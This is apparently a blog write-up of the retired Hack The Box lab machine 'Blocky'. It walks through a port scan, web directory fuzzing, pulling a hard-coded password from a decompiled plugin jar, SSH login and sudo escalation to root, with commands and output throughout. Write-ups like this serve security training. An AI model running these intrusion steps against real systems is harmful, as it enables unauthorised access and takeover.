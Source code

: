 ```yaml
---
layout: post
title: Hack the Box - Blocky
date: 2020-05-14 01:04:22 +0100
description: Blocky is fairly simple overall, and was based on a real-world machine. It demonstrates the risks of bad password practices as well as exposing internal files on a public facing system. On top of this, it exposes a massive potential attack vector, Minecraft. Tens of thousands of servers exist that are publicly accessible, with the vast majority being set up and configured by young and inexperienced system administrators.
img: blocky.png
fig-caption: Blocky
categories: HackTheBox
tags: [Easy, Linux, Retired, CTF]
---
```

## Overview
Blocky is fairly simple overall, and was based on a real-world machine. It demonstrates the risks of bad password practices as well as exposing internal files on a public facing system. On top of this, it exposes a massive potential attack vector, Minecraft. Tens of thousands of servers exist that are publicly accessible, with the vast majority being set up and configured by young and inexperienced system administrators.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/blocky]
└─$ sudo nmap -p- -T4  10.129.1.53
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-15 12:09 GMT
Nmap scan report for 10.129.1.53
Host is up (0.016s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
8192/tcp  closed sophos
25565/tcp open   minecraft
```
We can see that a minecraft port is open which is interesting but after following that rabbit hole for a while I ran fuzzing against the webserver and found a plugins directory with a jar in it.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/blocky]
└─$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.1.53/FUZZ   

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.1.53/FUZZ
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

                        [Status: 200, Size: 52253, Words: 3306, Lines: 314]
wiki                    [Status: 301, Size: 309, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 315, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 312, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 316, Words: 20, Lines: 10]
javascript              [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 313, Words: 20, Lines: 10]
phpmyadmin              [Status: 301, Size: 315, Words: 20, Lines: 10]
                        [Status: 200, Size: 52253, Words: 3306, Lines: 314]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
:: Progress: [220547/220547] :: Job [1/1] :: 2402 req/sec :: Duration: [0:01:34] :: Errors: 0 ::
```
## Foothold
Using [jd-gui](https://tools.kali.org/reverse-engineering/jd-gui) I was able to decompile the jar and could see a password. A brief look on the site revealed a username notch. Which when attempting SSH granted access.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/blocky]
└─$ ssh notch@10.129.1.53
notch@10.129.1.53's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Thu Sep 24 08:12:11 2020 from 10.10.14.2
notch@Blocky:~$
```
## Privilege Escalation
As the user is able to run sudo privilege escalation is trivial.
```
notch@Blocky:/tmp$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:/tmp$ sudo bash
root@Blocky:/tmp# whoami
root
``` 